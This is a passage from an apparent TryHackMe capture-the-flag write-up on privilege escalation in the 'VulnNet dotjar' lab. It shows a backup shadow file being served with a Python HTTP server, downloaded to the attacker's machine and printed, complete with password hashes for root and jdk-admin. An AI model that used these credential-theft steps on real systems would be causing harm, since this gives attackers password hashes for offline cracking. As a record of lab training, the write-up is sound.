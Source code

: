 ## Privilege Escalation

### Accessing the shadow backup file
- Backup folder contains the shadow file backup. Try to download the `.bak` or `.gz` file to your machine to access it.

```bash
web@vulnnet-dotjar:/var/backups$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.9.1.20 - - [11/May/2021 08:12:05] code 404, message File not found
10.9.1.20 - - [11/May/2021 08:12:05] "GET /shadow.bak HTTP/1.1" 404 -
10.9.1.20 - - [11/May/2021 08:12:29] "GET /shadow-backup-alt.gz HTTP/1.1" 200 -
```

- Unzipping `.gz` file using `gunzip` to access the shadow file:

```bash
wget http://10.10.116.160:8000/shadow-backup-alt.gz
--2021-05-11 11:42:27--  http://10.10.116.160:8000/shadow-backup-alt.gz
Connecting to 10.10.116.160:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 485 [application/gzip]
Saving to: ‘shadow-backup-alt.gz’

shadow-backup-alt.gz              100%[=============================================================>]     485  --.-KB/s    in 0s      

2021-05-11 11:42:27 (1.14 MB/s) - ‘shadow-backup-alt.gz’ saved [485/485]

root@kali:~/Desktop/CTF/TryHackMe/vulnet:dotjar# gunzip shadow-backup-alt.gz 
root@kali:~/Desktop/CTF/TryHackMe/vulnet:dotjar# cat shadow-backup-alt 
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:18643:0:99999:7:::
daemon:*:18642:0:99999:7:::
bin:*:18642:0:99999:7:::
sys:*:18642:0:99999:7:::
sync:*:18642:0:99999:7:::
games:*:18642:0:99999:7:::
man:*:18642:0:99999:7:::
lp:*:18642:0:99999:7:::
mail:*:18642:0:99999:7:::
news:*:18642:0:99999:7:::
uucp:*:18642:0:99999:7:::
proxy:*:18642:0:99999:7:::
www-data:*:18642:0:99999:7:::
backup:*:18642:0:99999:7:::
list:*:18642:0:99999:7:::
irc:*:18642:0:99999:7:::
gnats:*:18642:0:99999:7:::
nobody:*:18642:0:99999:7:::
systemd-network:*:18642:0:99999:7:::
systemd-resolve:*:18642:0:99999:7:::
syslog:*:18642:0:99999:7:::
messagebus:*:18642:0:99999:7:::
_apt:*:18642:0:99999:7:::
uuidd:*:18642:0:99999:7:::
lightdm:*:18642:0:99999:7:::
whoopsie:*:18642:0:99999:7:::
kernoops:*:18642:0:99999:7:::
pulse:*:18642:0:99999:7:::
avahi:*:18642:0:99999:7:::
hplip:*:18642:0:99999:7:::
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:18643:0:99999:7:::
```